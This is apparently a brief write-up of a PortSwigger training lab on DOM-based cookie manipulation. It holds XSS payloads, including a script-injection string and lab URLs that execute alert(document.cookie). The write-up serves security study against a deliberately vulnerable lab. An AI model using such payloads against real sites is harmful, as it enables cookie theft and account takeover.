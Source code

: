 # DOM-based cookie manipulation

## This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause [XSS](https://portswigger.net/web-security/cross-site-scripting) on a different page and call the `print()` function. You will need to use the exploit server to direct the victim to the correct pages.

first payload `&'><script>alert(1)</script>`

```
https://0a0f001904aa1b5f812c16f700510002.web-security-academy.net/product?productId=1&%27%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E
```

```
https://0a0f001904aa1b5f812c16f700510002.web-security-academy.net/product?productId=1&%27%3E%3Cscript%3Ealert(1)%3C/script%3E
```
